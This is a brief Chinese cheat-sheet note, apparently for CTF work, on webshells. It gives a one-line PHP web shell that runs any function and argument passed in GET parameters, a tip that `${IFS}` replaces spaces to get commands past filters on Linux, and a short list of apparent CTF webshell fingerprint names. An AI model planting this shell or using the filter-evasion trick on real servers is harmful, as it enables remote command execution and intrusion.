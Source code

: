 ```yaml
---
title: "webshell"
date: 2016-05-12 17:45
---
```


## 0x00 杂项

linux 环境下 `${IFS}` 可以代替 `空格`

## 0x01 php

```
# a=system&b=ls
<?php $_GET['a']($_GET['b']); ?>
```




## 0x05 ctf webshell指纹

```
albert      albert
firesun
xiaojunjie  sunset
virink
```
